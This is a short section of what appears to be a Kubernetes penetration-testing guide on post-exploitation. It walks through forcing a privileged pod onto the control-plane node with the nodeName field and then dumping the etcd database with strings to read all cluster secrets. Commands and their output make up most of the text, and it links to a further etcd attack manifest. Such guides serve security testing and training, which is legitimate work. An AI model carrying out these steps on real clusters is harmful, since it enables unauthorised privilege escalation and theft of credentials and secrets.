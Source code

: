 # Post exploitation

## Can you run your pod on a control-plane node
The pod you created above was likely scheduled on a worker node. Before jumping into post exploitation on the worker node, it is worth seeing if you run your a pod on a control-plane node. If you can run your pod on a control-plane node using the nodeName selector in the pod spec, you might have easy access to the etcd database, which contains all of the configuration for the cluster, including all secrets. This is not a possible on cloud managed Kubernetes clusters like GKE and EKS - they hide the control-plane. 

Get nodes
```
kubectl get nodes
NAME                STATUS   ROLES    AGE   VERSION
k8s-control-plane   Ready    master   93d   v1.19.1
k8s-worker          Ready    <none>   93d   v1.19.1
```

Pick your manifest, uncomment and update the nodeName field with the name of the master node
```
nodeName: k8s-control-plane
```
Create your pod
```
kubectl apply -f manifests/everything-allowed/job/everything-allowed-exec-job.yaml
```

### Read secrets from etcd
If you can run your pod on a control-plane node using the `nodeName` selector in the pod spec, you might have easy access to the `etcd` database, which contains all of the configuration for the cluster, including all secrets. 

Below is a quick and dirty way to grab secrets from `etcd` if it is running on the control-plane node you are on. If you want a more elegant solution that spins up a pod with the `etcd` client utility `etcdctl` and uses the control-plane node's credentials to connect to etcd wherever it is running, check out [this example manifest](https://github.com/mauilion/blackhat-2019/blob/master/etcd-attack/etcdclient.yaml) from @mauilion. 

**Check to see if `etcd` is running on the control-plane node and see where the database is (This is on a `kubeadm` created cluster)**
```
root@k8s-control-plane:/var/lib/etcd/member/wal# ps -ef | grep etcd | sed s/\-\-/\\n/g | grep data-dir
```
Output:
```
data-dir=/var/lib/etcd
```
**View the data in etcd database:**
```
strings /var/lib/etcd/member/snap/db | less
```
